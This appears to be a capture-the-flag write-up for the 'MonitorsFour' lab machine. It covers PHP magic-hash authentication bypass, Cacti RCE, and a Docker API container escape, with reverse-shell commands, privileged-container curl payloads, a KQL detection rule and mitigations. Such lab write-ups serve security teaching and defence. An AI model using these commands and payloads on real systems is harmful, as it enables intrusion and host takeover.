# MonitorsFour


**Target IP:** `10.10.11.98`
**OS:** Windows (running Docker Desktop via WSL2)
**Difficulty:** Medium/Hard


| Step |      User / Access     | Technique Used                                   | Result                                                                                                                        |
| :--: | :--: | :-- | :- |
|   1  |          `N/A`         | **Port Enumeration & Service Discovery**         | `nmap` scan revealed `80/tcp` (Nginx HTTP) and `5985/tcp` (WinRM), identifying a Windows host serving a PHP web application.  |
|   2  |          `N/A`         | **Web Recon & Endpoint Discovery**               | Browsing `monitorsfour.htb` exposed a login page; fuzzing identified a hidden `/user` endpoint accepting a `token` parameter. |
|   3  |          `N/A`         | **Input Validation Testing**                     | Requests to `/user` returned token validation errors, indicating backend logic dependent on the `token` parameter.            |
|   4  |          `N/A`         | **PHP Type Juggling (Loose Comparison)**         | Supplied magic hash values (`0`, `0e0`, `0e12345`) to bypass authentication due to `==` comparisons in PHP.                   |
|   5  |         `admin`        | **Authentication Bypass & Data Disclosure**      | Successful token bypass caused the endpoint to return the full user database in JSON format.                                  |
|   6  |       `attacker`       | **Credential Harvesting**                        | Extracted admin credentials, including an MD5 password hash belonging to `admin` (Marcus Higgins).                            |
|   7  |         `admin`        | **Credential Reuse : Cacti Login**               | Reused admin credentials to authenticate into the Cacti monitoring application.                                               |
|   8  |       `www-data`       | **Cacti Remote Code Execution (CVE-2025-24367)** | Exploited log poisoning RCE in Cacti 1.2.28 to execute arbitrary commands and obtain a reverse shell.                         |
|   9  |       `www-data`       | **Container Environment Discovery**              | Identified execution inside a Docker container (`/.dockerenv`) running on Docker Desktop via WSL2.                            |
|  10  |       `www-data`       | **Docker API Abuse (CVE-2025-9074)**             | Accessed unauthenticated Docker Engine API from within the container.                                                         |
|  11  | `root / Administrator` | **Container Escape & Host Mount**                | Created a privileged container mounting the host filesystem, effectively escaping to the Windows host.                        |
|  12  |     `Administrator`    | **Host File System Access**                      | Navigated to the Windows Administrator desktop and retrieved `root.txt` (root flag).                                          |





## 1. Reconnaissance

We begin with an Nmap scan to identify open ports and services.

```bash
nmap -sC -sV -A 10.10.11.98 -oN nmap_scan.txt

```





**Key Findings:**

* **Port 80 (HTTP):** Nginx web server hosting `http://monitorsfour.htb/`.




* *Tech Stack:* PHP 8.3.27, Bootstrap, jQuery.
* *Security Headers:* Missing `X-Frame-Options` and `X-Content-Type-Options`.
* *Cookies:* `PHPSESSID` lacks the `HttpOnly` flag.

* **Port 5985 (WinRM):** Windows Remote Management. This confirms the underlying host is likely Windows.




* **Vulnerability Scan:** The scan flags **CVE-2024–42179**, an information disclosure vulnerability in `Microsoft-HTTPAPI/2.0`.



### Web Enumeration

Navigating to the website, we find a login page. Fuzzing directories and analyzing requests reveals a suspicious endpoint: `/user`.

Querying this endpoint returns token errors:

* `curl http://monitorsfour.htb/user`  `{"error":"Missing token parameter"}`
* `curl http://monitorsfour.htb/user?token=AAAA`  `{"error":"Invalid or missing token"}`


## 2. Vulnerability Analysis: PHP Type Juggling

Given the PHP environment, we suspect **Type Juggling** vulnerabilities. In PHP, "loose comparisons" (using `==` instead of `===`) can yield `TRUE` for different data types.

**The Concept:**
PHP treats strings starting with `0e` followed by digits as scientific notation.

* `"0e1234"` is treated as , which equals **0**.
* Therefore: `"0e1234" == "0e9999"` evaluates to **TRUE**.





### Exploitation

We fuzz the `token` parameter with "Magic Hashes" (strings that evaluate to 0).

**Fuzzing Script:**

```bash
tokens=("0" "0e0" "0e1" "0e12345" "00" "0.0")

for token in "${tokens[@]}"; do
  echo "=== Testing token: $token ==="
  curl -s "http://monitorsfour.htb/user?token=$token"
done

```





**Result:**
The server accepts these loose comparisons and dumps the user database in JSON format. We retrieve credentials for the admin:

* **Username:** `admin`
* **Password:** `56b32eb43e6f15395f6c46c1c9e1cd36` (MD5 hash)
* **Real Name:** Marcus Higgins

*Note: Further enumeration of `http://monitorsfour.htb/admin/changelog` reveals the infrastructure migrated to **Windows + Docker Desktop 4.44.2** on May 16, 2025.*





## 3. Initial Access: Cacti RCE

We identify a **Cacti** instance running on the server. Attempting **credential reuse** with `admin` (Marcus Higgins) allows us to log in.




**Version Identified:** Cacti 1.2.28
**Vulnerability:** CVE-2025–24367 (Remote Code Execution)




This version patches an older vulnerability (CVE-2024-43363), but a new RCE vector exists. We utilize a Proof of Concept (PoC) script to exploit the log poisoning mechanism.






**Exploit Execution:**
Using a public PoC (e.g., from GitHub), we target the Cacti instance to execute a reverse shell command.

```bash
# Example payload concept
nc -e /bin/sh <Your_IP> <Your_Port>

```

**Status:** We catch a reverse shell as `www-data`.
**Flag:** User flag captured.



## 4. Privilege Escalation: Docker Escape

Inside the shell, we perform enumeration to understand our environment.

1. **Check Environment:** `ls -la /.dockerenv` exists. We are in a container.
2. **Network:** `ip addr` shows we are on a Docker network bridge.



3. **Docker Socket:** We check for the Docker Engine API.




**Vulnerability:** CVE-2025–9074 (Docker Desktop API Exposure)
The changelog mentioned **Docker Desktop 4.44.2**. This version has a critical flaw where local containers can access the Docker Engine API without authentication, allowing them to control the host.

### The Escape Plan

We will use the exposed Docker API (reachable at `192.168.65.7:2375` or similar internal gateway) to create a new, privileged container that mounts the host's root filesystem.

**1. Create the Container Config (`priv_esc.json`):**
We define a container that mounts the host's root directory (`/`) to `/mnt/host` inside the container.

```json
{
  "Image": "alpine:latest",
  "Cmd": ["/bin/sh", "-c", "chroot /mnt/host sh -c 'bash -i >& /dev/tcp/10.10.14.X/9001 0>&1'"],
  "HostConfig": {
    "Binds": ["/:/mnt/host"],
    "Privileged": true
  }
}

```

```bash
curl -X POST http://192.168.65.7:2375/containers/create -H "Content-Type: application/json" -d '{
  "Image": "alpine",
  "HostConfig": {
    "Binds": ["/:/host"],
    "Privileged": true,
    "NetworkMode": "host"
  },
  "Cmd": ["sh", "-c", "chroot /host /bin/bash -c \"bash -i >& /dev/tcp/10.XX.XX.XX/9001 0>&1\""]
}'
```

**2. Execute via API:**

```bash
# Create the container
curl -X POST -H "Content-Type: application/json" -d @priv_esc.json http://192.168.65.7:2375/containers/create?name=pwned

# Start the container
curl -X POST http://192.168.65.7:2375/containers/pwned/start

```


## 5. Root Flag

Our netcat listener catches a shell. Because we mounted the host's root filesystem and chrooted into it (or simply navigated to the mount point), we now have full access to the underlying Windows host file system.

**Navigation:**
The Windows C: drive is typically mounted at `/mnt/host/c` (or just `/c` depending on the mount).

```bash
cd /mnt/host/c/Users/Administrator/Desktop/
cat root.txt

```





**Root Flag Captured.**


# MonitorsFour: Tactical Operations Briefing

## Strategic Overview

* **1.1 Definition:** Hybrid Cloud-Container Compromise Chain utilizing Application Logic Flaws (Type Juggling), Remote Code Execution (RCE) in Monitoring Infrastructure, and Container Orchestration API abuse.
* **1.2 Impact:** **Cross-Context Infrastructure Takeover**. The adversary bridges the gap from a Linux-based Web Application Container to the underlying Windows Host OS, bypassing virtualization boundaries to achieve System Administrator control.
* **1.3 The Scenario:** An adversary identifies a loose comparison vulnerability in a custom PHP endpoint to dump user credentials. These credentials grant access to a Cacti instance vulnerable to Log Poisoning RCE. Post-compromise, the attacker leverages an unprotected Docker Desktop API (CVE-2025-9074) to execute a "Privileged Container Escape," mounting the host filesystem to retrieve root secrets.


## System Architecture & Theory

* **2.1 Protocol Environment:**
* **Presentation Layer:** Nginx (Reverse Proxy) / PHP 8.3 (Application Logic).
* **Application Layer:** Cacti 1.2.28 (Network Monitoring).
* **Virtualization Layer:** Docker Desktop for Windows (WSL2 Backend).
* **Management Layer:** Docker Engine API (HTTP/2375).


* **2.2 Attack Logic Flow:**
> [Public HTTP 80] -> [PHP Type Juggling] -> [Credential Dump] -> [Cacti RCE] -> [Container Shell] -> [Docker API Abuse] -> [Host FS Mount] -> [Windows System Access]


* **2.3 Theoretical Analogy:** The attacker picks the lock of the front gate (PHP Juggling), steals the security guard's keys (Cacti Creds), enters the guard booth (Container), and then uses the booth's master control panel (Docker API) to unlock the entire building's foundation (Host Mount).


## Attack Vector (Mechanics)

### Core Mechanism

| Attribute               | Technical Details                                                                                                                            |
| :- | :- |
| **Primary Identifiers** | PHP `token` parameter, Cacti version headers, `/.dockerenv` artifact, internal Docker gateway (`192.168.65.x`).                              |
| **Critical Weakness**   | **PHP loose comparison flaw** (`==` vs `===`) combined with **unauthenticated Docker Engine API exposure**.                                  |
| **Offensive Technique** | Authentication bypass using **magic hashes** (`0e…`), followed by direct interaction with the Docker API to spawn **privileged containers**. |


### Prerequisites

* **Access Level:** Public HTTP access. Valid user credentials (obtained via bypass) for Cacti access.
* **Connectivity:** TCP 80 (HTTP), Internal TCP 2375 (Docker API).
* **Target State:** Docker Desktop configured with default insecure API bindings on the WSL2 bridge network.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Adversaries exploiting PHP Type Juggling will generate high-frequency HTTP requests to authentication endpoints using scientific notation payloads (`0e[0-9]+`). Subsequent container escapes will manifest as internal network connections to the Docker Gateway (Gateway IP on port 2375) initiating `POST /containers/create` with `Privileged: true`.
* **Behavioral Outliers:**
* **Web Layer:** Access to hidden endpoints (`/user`) with non-standard token formats (e.g., `0e12345`).
* **Container Layer:** Execution of `curl` or `wget` targeting the container's default gateway IP on port 2375.


* **Toxic Combinations:** The presence of `admin` credentials reusing passwords across the custom web app and the Cacti instance creates a linear escalation path.


## Detection Engineering

* **Telemetry Gap Analysis:**
* **WAF/Web Logs:** Capture of Query Parameters (detecting `0e` patterns).
* **Container Runtime Security:** Monitoring for `exec` calls with `Privileged` flags.
* **Sysmon (Host):** Network connections from `wsl.exe` or `vmmem` processes to unexpected internal ports.


* **Detection-as-Code (KQL):**

```kql
// Detect Cacti RCE via Process Spawning
// Trigger: High Severity
SecurityEvent
| where EventID == 4688
// Cacti typically runs under www-data / Apache / Nginx context
| where ParentProcessName has "php-cgi.exe" or ParentProcessName has "httpd.exe" or ParentProcessName has "nginx.exe"
// Detect shell spawning
| where ProcessName endswith "cmd.exe" or ProcessName endswith "powershell.exe" or ProcessName endswith "sh.exe"
| project TimeGenerated, Account, Computer, ParentProcessName, CommandLine

```

* **Resilience Test:**
* **Bypass:** The adversary may execute commands directly via PHP's `system()` without spawning an interactive shell, or use obfuscated payloads.
* **Sub-Rule Countermeasure:** Enable PHP audit logging to capture `exec` function calls directly at the application interpreter level.


## Toolkit & Implementation

* **Automation:**
* `Fuzzers`: Simple bash loops or Burp Intruder for Magic Hash discovery.
* `Cacti-Exploit`: Python scripts leveraging CVE-2025-24367 for Log Poisoning.
* `Docker Client` (via `curl`): Manual interaction with the Docker Engine API.


* **OPSEC Analysis:**
* **Web:** The Type Juggling attack is extremely noisy if the fuzzer is not rate-limited.
* **Internal:** The Container Escape is relatively "quiet" on the host network as it occurs over the internal virtual bridge, but the creation of a new container with `HostConfig: {"Binds": ["/:/mnt/host"]}` is a blatant IoC in Docker logs.


* **Post-Exploitation:** Mapping the host C: drive allows for dumping SAM/SYSTEM hives, reading flag files, or dropping malware directly into the Windows Startup folder.


## Defensive Mitigation

* **Technical Hardening:**
* **PHP:** Use **Strict Comparison** (`===`) for all token and password validations.
* **Docker:** Restrict Docker API access. Ensure the Docker Socket is not exposed to containers. Use `userns-remap` to map container root to a non-privileged host user.
* **Cacti:** Update to the latest stable release and restrict access to the `/cacti/` directory to management IPs only.


* **Personnel Focus:**
* Developers must be trained on Type Safety in loosely typed languages (PHP, JS).
* DevOps engineers must audit `docker-compose` and Daemon configurations for API exposure.


## Quick-Action Playbook

| Step | Objective                 | Technique / Command                                                                                            |
| :--: | : | :- |
|   1  | **Authentication Bypass** | **curl "[http://target/user?token=0e1234](http://target/user?token=0e1234)"**                                  |
|      |                           | Exploited PHP loose comparison (`==`) using a magic hash to bypass token validation.                           |
|   2  | **Remote Code Execution** | **python3 cacti_rce.py --target [http://target/cacti](http://target/cacti) --cmd "nc -e /bin/sh <IP> <PORT>"** |
|      |                           | Achieved command execution via vulnerable Cacti instance.                                                      |
|   3  | **Container Escape**      | **Docker Engine API abuse (unauthenticated, TCP/2375)**                                                        |
|      |                           | Created a privileged container via JSON payload injection to escape isolation.                                 |

